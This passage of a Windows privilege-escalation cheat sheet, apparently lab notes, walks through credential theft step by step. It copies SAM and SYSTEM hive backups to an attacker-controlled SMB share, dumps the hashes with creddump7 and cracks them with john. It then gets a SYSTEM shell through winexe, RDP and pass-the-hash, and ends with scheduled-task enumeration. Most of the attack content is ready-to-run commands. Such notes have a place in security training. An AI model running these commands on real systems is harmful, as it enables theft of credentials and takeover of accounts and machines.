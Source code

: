### Security Account Manager (SAM)
Windows stores password hashes in the `SAM`, which are encrypted with a key found in a file named `SYSTEM`. 

The SAM and SYSTEM files are locked and located in `C:\Windows\System32\config` while the system is running, and backups may exist in the `C:\Windows\Repair` or `C:\Windows\System32\config\RegBack` directories.

If SAM and SYSTEM file backups are found, transfer them to the attacker machine.
```powershell
copy C:\Windows\Repair\SAM \\[attacker ip]\thm\SAM
copy C:\Windows\Repair\SYSTEM \\[attacker ip]\thm\SYSTEM
```

Clone the `creddump7` repository and install `pycrypto`.
```bash
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
```

Dump the hashes from the SAM and SYSTEM files using `pwdump.py` from `creddump7`.
```bash
python3 /opt/creddump7/pwdump.py SYSTEM SAM
```

Crack the admin password hash using `john`.
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt
```

Log into admin using the cracked password with `winexe` or `RDP` on the attacker machine to spawn a SYSTEM shell.
```bash
winexe --system -U 'admin%password123' //[target ip] cmd.exe
xfreerdp /u:admin /p:password123 /cert:ignore /v:[target ip]
```

### Pass the Hash
It is possible to authenticate to a remote server or service by using a full password hash instead of a plaintext password.

Log into admin using the full admin hash (LM and NT) with `pth-winexe` on the attacker machine to spawn a SYSTEM shell.
```bash
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //[target ip] cmd.exe
```

## Scheduled Tasks
There is no easy method of enumerating custom tasks and will need to rely on finding a script or log file that indicates a scheduled task is being run.

Check all scheduled tasks the user can see.
```powershell
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
